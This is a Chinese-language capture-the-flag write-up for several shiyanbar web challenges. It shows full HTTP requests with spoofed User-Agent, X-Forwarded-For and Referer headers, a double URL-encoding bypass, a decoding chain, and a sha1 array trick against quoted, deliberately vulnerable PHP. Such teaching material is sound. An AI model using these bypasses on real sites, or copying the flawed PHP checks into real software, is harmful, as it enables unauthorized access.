 ## 猫抓老鼠

检查请求头,发现 `content-row: MTU0Nzk5MTA1OQ==`
输入得到Flag: `KEY: #WWWnsf0cus_NET#`

## 头有点大

根据提示,抓包
伪造.NET 浏览器 国籍
修改为
```
GET /sHeader/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1/.NET CLR 9.9; Win64; x64; rv:64.0) Gecko/20100101 IE
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-gb,en;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
GO,得到Flag: The key is:HTTpH34der

## 貌似有点难

查看代码,发现要将IP伪装为1.1.1.1
在伪造IP后响应中提示还要伪造跳转网页
抓包
伪造IP 跳转网页
修改为
```
GET /phpaudit/ HTTP/1.1
Host: ctf5.shiyanbar.com
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
X-Forwarded-For: 1.1.1.1 ##IP
Referer: https://www.google.com  ##跳转网页
Connection: close
Cookie: Hm_lvt_34d6f7353ab0915a4c582e4516dffbc3=1546692582; Hm_cv_34d6f7353ab0915a4c582e4516dffbc3=1*visitor*185270%2CnickName%3Affdy; Hm_lpvt_34d6f7353ab0915a4c582e4516dffbc3=1547962050
Upgrade-Insecure-Requests: 1
```
得到Flag: Key is SimCTF{daima_shengji}

## PHP大法
进入链接,看见源码
```php
<?php
if(eregi("hackerDJ",$_GET[id])) { #比较id和字符,如果相等返回true
  echo("<p>not allowed!</p>");
  exit();
}

$_GET[id] = urldecode($_GET[id]); #对id进行url解密
if($_GET[id] == "hackerDJ") 如果id等于字符,得到Flag
{
  echo "<p>Access granted!</p>";
  echo "<p>flag: *****************} </p>";
}
?>


<br><br>
Can you authenticate to this website?
```
分析代码发现应对字符进行URL编码,但需要加密两次,因为浏览器会解密一次
网上的在线编码一般不会处理英文,用这个[网站](http://tool.bugku.com/safe/url.php)
GET 提交,得到 Flag: DUTCTF{PHP_is_the_best_program_language}

## what a fuck!这是什么鬼东西?

jother 编码 [这里](https://wps2015.org/drops/drops/jother%E7%BC%96%E7%A0%81%E4%B9%8B%E8%B0%9C.html)
直接在 Console( )里运行得到Flag : Ihatejs

## NSCTF web200

![](http://ctf5.shiyanbar.com/web/web200.jpg)

分析代码,密文首先被反转,再自增 1 
base64-encode 后再反转
ROT13 加密,得到密文 :
`a1zLbgQsCESEIqRLwuQAyMwLyq2L5VwBxqGA3RQAyumZ0tmMvSGM2ZwB4tws`

先逆转该过程就 OK 了

[ROT13 解密](http://www.mxcz.net/tools/rot13.aspx)得 : 

`n1mYotDfPRFRVdEYjhDNlZjYld2Y5IjOkdTN3EDNlhzM0gzZiFTZ2MjO4gjf`

翻转 :

`fjg4OjM2ZTFiZzg0MzhlNDE3NTdkOjI5Y2dlYjZlNDhjYEdVRFRPfDtoYm1n`

base64-decode : 
```
~88:36e1bg8438e41757d:29cgeb6e48c`GUDTO|;hbmg
```
自减 1 后翻转得 :

 `flag:{NSCTF_b73d5adfb819c64603d7237fa0d52977}`

## FALSE

查看源码:
```php
<?php
if (isset($_GET['name']) and isset($_GET['password'])) {
    if ($_GET['name'] == $_GET['password'])
        echo '<p>Your password can not be your name!</p>';
    else if (sha1($_GET['name']) === sha1($_GET['password']))
      die('Flag: '.$flag);
    else
        echo '<p>Invalid password.</p>';
}
else{
    echo '<p>Login first!</p>';
?>
```
发现需要构造 str1!=str2 并且两串的 sha1 值相等
直接构造肯定不现实
根据题目提示,应构造两者的返回值为 false, 即 false===false
sha1 与 MD5 都不能处理数组,所以我们构造两个数组 GET 提交
得到Flag
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTMzNDQ2OTYwMl19
-->